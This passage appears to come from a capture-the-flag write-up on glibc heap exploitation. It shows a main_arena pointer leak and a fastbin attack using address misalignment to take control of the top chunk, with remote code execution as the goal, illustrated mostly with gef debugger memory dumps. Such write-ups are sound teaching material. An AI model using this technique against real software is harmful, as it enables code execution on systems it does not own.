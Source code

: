 


Then we free the chunk with overwritten size field, main arena ptr will be populated in our chunk:
```
gef> tel 0x0000563b4f62f040
0x0000563b4f62f040|+0x0000: 0x00007f883fa2db78 -> 0x0000563b4f62f1b0 -> 0x0000000000000000
0x0000563b4f62f048|+0x0008: 0x00007f883fa2db78 -> 0x0000563b4f62f1b0 -> 0x0000000000000000
```



Now we can aim for RCE, although it's not that simple since we can't allocate near `__malloc_hook` (will be explained later). Recall that `top` chunk is a special chunk which services every `malloc` request.
```
gef> p main_arena.top
$3 = (mchunkptr) 0x563b4f62f1b0
gef> p &main_arena.top
$4 = (mchunkptr *) 0x7f883fa2db78 <main_arena+88>
```
If we manage to control `top` chunk, we can control where our heap chunk is going to be allocated. But how can we land a chunk near `top` ? We can with `fastbin attack` and a bit of luck. For example in [this writeup](https://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html), it's stated that we can make use of address misalignment in order to allocate chunk. Let me demonstrate; First we see that the `main_arena` has no chunk size of 0x10-0x40 near `top` ptr.
```
gef> tel 0x7f883fa2db20-0x40 20
0x00007f883fa2dae0|+0x0000: 0x0000000000000000
0x00007f883fa2dae8|+0x0008: 0x0000000000000000
0x00007f883fa2daf0|+0x0010: 0x00007f883fa2c260 -> dunno what this is
0x00007f883fa2daf8|+0x0018: 0x0000000000000000
0x00007f883fa2db00|+0x0020: 0x00007f883f6eee20 -> <memalign_hook_ini+0> push r12
0x00007f883fa2db08|+0x0028: 0x00007f883f6eea00 -> <realloc_hook_ini+0> push r15
0x00007f883fa2db10|+0x0030: 0x0000000000000000
0x00007f883fa2db18|+0x0038: 0x0000000000000000
0x00007f883fa2db20|+0x0040: 0x0000000000000000
0x00007f883fa2db28|+0x0048: 0x0000000000000000
0x00007f883fa2db30|+0x0050: 0x0000000000000000
0x00007f883fa2db38|+0x0058: 0x0000000000000000
0x00007f883fa2db40|+0x0060: 0x0000000000000000
0x00007f883fa2db48|+0x0068: 0x0000000000000000
0x00007f883fa2db50|+0x0070: 0x0000000000000000
0x00007f883fa2db58|+0x0078: 0x0000000000000000
0x00007f883fa2db60|+0x0080: 0x0000000000000000
0x00007f883fa2db68|+0x0088: 0x0000000000000000
0x00007f883fa2db70|+0x0090: 0x0000000000000000
0x00007f883fa2db78|+0x0098: 0x0000563b4f62f1b0 -> top
```



Because of size limitation on chunk allocation (size <= 0x48), we can't use 0x60 chunk in order to land chunk near `0x00007f883fa2daf0`. Let's free 2 fastbin chunks and see what happens:
```
gef> tel &main_arena 12
0x00007f883fa2db20|+0x0000: 0x0000000000000000
0x00007f883fa2db28|+0x0008: 0x0000000000000000
0x00007f883fa2db30|+0x0010: 0x0000563b4f62f090 -> freed 0x20 chunk
0x00007f883fa2db38|+0x0018: 0x0000000000000000
0x00007f883fa2db40|+0x0020: 0x0000563b4f62f0c0 -> freed 0x40 chunk
0x00007f883fa2db48|+0x0028: 0x0000000000000000
0x00007f883fa2db50|+0x0030: 0x0000000000000000
0x00007f883fa2db58|+0x0038: 0x0000000000000000
0x00007f883fa2db60|+0x0040: 0x0000000000000000
0x00007f883fa2db68|+0x0048: 0x0000000000000000
0x00007f883fa2db70|+0x0050: 0x0000000000000000
0x00007f883fa2db78|+0x0058: 0x0000563b4f62f1b0 -> top

```